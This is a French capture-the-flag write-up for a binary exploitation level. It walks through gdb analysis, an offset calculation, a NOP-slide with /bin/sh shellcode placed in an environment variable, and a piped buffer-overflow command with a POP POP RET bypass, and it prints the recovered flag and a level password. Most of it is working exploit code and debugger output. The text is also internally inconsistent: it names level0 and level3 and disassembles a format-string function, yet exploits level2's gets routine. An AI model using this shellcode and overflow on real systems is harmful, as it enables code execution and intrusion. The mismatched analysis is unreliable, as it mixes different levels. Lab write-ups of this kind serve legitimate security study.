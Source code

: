 On se connecte sur le level0, ou se trouve un **binaire** <code>level3</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level3 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
> disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **shellcode**, et nous allons utliser un **POP POP RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *0x080484f2 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
(gdb) > i f
 Stack level 0, frame at 0xbffff680:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff690
 Arglist at 0xbffff678, args:
 Locals at 0xbffff678, Previous frame's sp is 0xbffff680
 Saved registers:
  ebp at 0xbffff678, eip at 0xbffff67c
(gdb) > p 0xbffff67c - 0xbffff62c
$1 = 80
```
> OFFSET : 80
>
> SHELLCODE: <code>\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80</code>
>
>POP POP RET: <code>0x080485c7   edi ebp ret</code>

Nous commençons par créer une varibale d'environnement avec notre **SHELLCODE** précédé d'une NOPSLIDE (assez grande pour mieux la repérer).
<pre><code>export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
</code></pre>

On cherche par la suite l'adresse de notre **SHELLCODE** afin de trouver une adresse d'un des NOP qu'on utlisera pour le buffer overflow.
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b * p
Breakpoint 1 at 0x80484d4
(gdb) > run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x080484d4 in p ()
(gdb) > x/100xs environ
...
0xbffff866:    SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061۰\006̀Sh/ttyh/dev\211\343\061\311f\271\022'\260\005̀1\300Ph//shh/bin\211\343PS\211ᙰ\v̀"
(gdb) > x/100sx 0xbffff866
0xbffff866:     0x53    0x48    0x45    0x4c    0x4c    0x43    0x4f    0x44
0xbffff86e:     0x45    0x3d    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff876:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff87e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff886:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff88e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff896:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff89e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8a6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8ae:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8b6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8be:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8c6:     0x90    0x90    0x90    0x90
```
On prend l'une des adresses qui ne contient que des **NOP**: <code>0xbffff8a6</code> et on génère notre commande pour le **buffer overflow** :
<pre><code>(python -c 'print "A" * 80 + "\xc7\x85\x04\x08" + "\xa6\xf8\xff\xbf"') | ./level2</code></pre>
> [OFFSET] = A * 80 [POP POP RET] = 0x080485c7 (little endian) [NOP ADDRESS] = Qui va mener au SHELLCODE
<pre><code>cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
</code></pre>

For download :
<pre><code>scp -P4242 level2@192.168.1.78:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


# Bonus

Ici un simple **ret** suffit, il suffit de prendre notre adresse de ret dans p :
<pre><code>0x0804853e
\x3e\x85\x04\x08 (little endian)
</code></pre>